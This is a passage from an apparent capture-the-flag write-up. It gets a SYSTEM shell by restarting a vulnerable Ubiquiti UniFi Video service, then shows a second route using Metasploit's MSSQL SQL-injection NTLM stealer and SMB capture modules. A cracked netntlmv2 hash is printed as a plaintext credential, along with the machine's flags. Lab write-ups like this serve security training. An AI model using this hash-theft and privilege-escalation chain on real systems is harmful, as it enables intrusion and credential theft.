![](https://lh3.googleusercontent.com/zQvdppn-7eLQDZtRPw-bOwbXA3ymrg2T9RDlw5mk6o-EC5TOJeqkOgZKlJoWEQOcFTkfHN_sNxxFJRqVfmeWbGYhnkMljCeRaKART6IrPLkbreiRY1FjpfqG2mBveDJnSKHxZQ5F141bVnIailqPn7butx4cQ7W45ZlP9s6wj-lx7xDdh8Pp2EV5GZh8nE7sfurH4VByFEB45IaUfMQVUBBMXcnT5jRUC0mN666WuT1qYNj1NsvkHlQDC7RshDgOyJ_TYg_zpbMw0sq7UPFwfSU1DFeFIFh3kI3yRon512tU5g8NVIS81X_h4P8cLhDHZz2RP6DSP-vxNJbZPHvlWZfXakVb7yRp6R41h9jhby7ElM2kPkhukhjcqaZQVg-qqqpI_cdeT0yK7YvDIeNRJQrX_2m04xt5jJuR0m_p_VWz4fXhR85dds2muRfOO6824YvS3yV5_x3g9lKJICpnOENj4ehEcxuAGQ28wKV2YDFW2DcZ7vKFRDJVWJhTpEbcxqgZA1sf6skWAcW6VCGS5c_mMu65nQvJVcrj-cEMAjpp9QXjmhppTNvSAncaGeF89preanPTByj9SN-ZNAWNVdp5Xe22I9-ZQYvzCdPNkfYkzrTPqLEcPgGYhMJ7u92f7jYYbqLjm6B4yJCUY_-v85ZDMFJ102cLgRVKt4WjN-fUvYXXU3_YNfs=w971-h449-no)

7. We type Stop-Service "Ubiquiti Unifi Video" to shutdown the program
8. Then we use Start-Service Ubiquiti Unifi Video" to restart the program

![](https://lh3.googleusercontent.com/e_jQuZQtLd8fGFwSw4BKTjoefY7uhIGXRzxT40gNwriQOj3zLJNmMmTaDUp3hJILAcJQRK7DjwtRa-kJonN1G5AquicE6VvNW18TVoEvnW7xdC22aL2dJwQn22Y3-hp68hEV1E6_7mKYMHWmlmcBi-hBFuLyPoHpyiT8jWjpnsrKUxs5F7d6nhZvKseP5NGy8gTL3t45iNa9SIzeW22RN2x2Rxfprod8W6jy0vDi8hPT3UGjYZEzwsJRfofCrtD2_IR5lavqcxd4KP1Z-HCEH_s4EyM2DW8HD53JUqEJRh_ymsV5OFfUj7bc5hzKNxPICp1XKa3AXMvETGxsfUzWfdxTJJ2cS0MXpmhE4-n_R8X4YnbevkKhR7-Wbgl1VL9DRk1-mRufs40382MZoVu3CL0edvxuq-uEPbSRRwJBSYWktgCILK61k1Ax0_le4pEu_5LhTVBWZqpv1CCclYKWM0X0cz7pxAEzH1wZsCtmDp_agRTiPavEafOnMOOrr3rZAOcBDoLHlWHmeyBtx9wreU3_wUCR11LFhTengnQbkYo1Tli7_9OsS5tMxheIlAwwPjxFuZUJt8TcjGu6qCYGz6DbhJfgtXxkK5oa_212xuRTEPvYNJifsRFFYfQc1SGdAZQPLJdHBL_Kehl2aRp7VDFiFIce9xoOWRoMbEiyrzIWAkWTk4ji0zQ=w508-h207-no)

9. Finally we obtain a "NT Authority\system" shell

![](https://lh3.googleusercontent.com/zbJWz5ivbVgTGKaz2uTscNU4Pe0s4rdS9OThnsh7fMy1n9JjPgt2CGLyjZgCG9J1oW0wywx8fRtxX4iLrmBN9Ip-h1B8HlqQ0O5HiYcNMWquzDXAXJPkwyj_2EzcZGRf4rWEhoV77e9sPnqWZRlyVGxRSUF89Dc0K5HpG6BS3TZu93jJdrkw6SM5nD59vKMib0ixb4qVusSoI4Tgj2vrWNjAMxHQgUJw5phgmv7_YaIpow1b5rRcFppTCuzRNRHEtJjUclP01gvtDg44Rb_VvZ7VKbiniBC2Zmqwvpu090kXWkSXqn3SIWEsgF-Fy9I9NIvVAogDzyrnudI3ysvjxogmktRTK5o4icKm2_MDMzF-J5rgPnm93hH7zL981gPKiboM9c5UTd14bdH3A404ayyC2qhjc0-FOMN1ilD8wVdUF4Wqf8dwtd-mVJbVow-fFCsIJhV9Za_IxG20Rv5GYp3iwF2zFKN4kEpPTOKx7UZCQ9El4AyYtOcQoQAupJdmr9REHW7qVvUQeCft4wzkI2gIY-z0a6das_qjTkXVhz8KNDsVxoS-ptI5oJ6Ln-sEhWqOWdUG3W3ld1n0wrPBXBC4PZYIdzPlLgAeRRhBe7sKiRviXI8I9acj8o9CtonUGJUXCoQKrbb3uiSYOhcynGc5G5eL54lZIaX2HaKR4ntM7ylcj6fc4r8=w613-h439-no)

# Exploitation Method 2 MSF
1. Microsoft SQL Server SQLi NTLM Stealer
```ruby
use auxiliary/admin/mssql/mssql_ntlm_stealer_sqli
```
![](https://lh3.googleusercontent.com/Gx17xEE7q3YHkxfK7ZrYVBYW4567qoFyqHuIsg6gF-YKyN35KsitOTmB6YVo1Mb1Xyjy9wvIwR180z-b19EqVDfay6yInCOFkXzgeb3Y8xxS-hfVa1fLKVVSIwfeTROv-bMYmgvlcbNndai0SZleeKCUB1iHoC1xJoe-rcN9YdlFjn3EIABwot0upuH4LxJt-t5dfDJdorPVH71hsl0BeYOZt4gHssoArCv-Q3m3Xwg_sBOV-WtftfGb_8wvT_hVCMvDy6oUOFdHW9SQjB3ucAOcEVhuvrWw1j7XOtFRpqb6W4LLRvC0oaswFDSFd0IMI6x2wpmn5Yr_1iipSmlFHC4UzWDax6cdW55YGmCQLyb97Q4miWBmD9E6rUYLjoFA90PD7bVrUhIDkRQdSKJq7BnPFj6YaIlt2m9k9yw6Dwyyychlmml0FB8oZD0MjImafWLUcms-zVNc9_P1A3l8-eqDAryzVNoQfiHYOchkKLHYXjutmfI4aMRldbBvOw6LWRntlqvW_gqqpGdGUWbhYpQmU6xVnAXQM10Fn59w8eHbylbL4mT2XxFRmFNVCrEKMkiyE4uZM8AobJWZoEPQWYA18M35Yt5EY2iOMAXb8fTGnRdj077pJZVftiPS7PLFqjzd5iV27izi_NqYYnyf7dfAwzCkL3zz1Gj8iusnhqGU4YGeef7hThk=w698-h475-no)

2. SMB CAPTURE MODULE
```ruby
use auxiliary/server/capture/smb
```
3. USE JOHN TO CRACK THE HASHED PASSWORDS IN FORMAT:netntlmv2
```ruby
Stacy : xNnWo6272k7x 
```
# FLAGS
```ruby
Root  CF559C6C121F683BF3E56891E80641B1 
User  10C1C275385280605E96ADD808C1A0AD 
```
